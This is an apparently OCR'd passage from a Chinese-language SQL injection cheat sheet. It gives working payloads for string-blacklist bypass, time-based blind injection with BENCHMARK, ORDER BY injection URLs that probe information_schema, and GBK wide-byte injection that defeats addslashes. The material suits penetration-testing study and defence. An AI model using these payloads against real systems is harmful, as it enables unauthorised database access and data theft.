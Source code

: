 ### 绕过字符串黑名单

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

使用 `CONCAT()` 时，任何个参数为 null，将返回 null，推荐使用 `CONCAT_WS()`。`CONCAT_WS()`函数第一个参数表示用哪个字符间隔所查询的结果。

### 条件语句

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`.

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### 延时函数

`SLEEP()`, `BENCHMARK()`.

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

### order by 后的注入

`order by` 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 `order` 或者 `order by` 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：`http://www.test.com/list.php?order=vote`

根据 `vote` 字段排序。找到投票数最大的票数 `num` 然后构造以下链接：

```
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 `rand` 函数：

```
http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)
```

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

```
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

### 宽字节注入

国内最常使用的 GBK 编码，这种方式主要是绕过 `addslashes` 等对特殊字符进行转移的绕过。反斜杠 `\` 的十六进制为 `%5c`，在你输入 `%bf%27` 时，函数遇到单引号自动转移加入 `\`，此时变为 `%bf%5c%27`，`%bf%5c`
在 GBK 中变为一个宽字符「縗」。`%bf` 那个位置可以是 `%81-%fe` 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
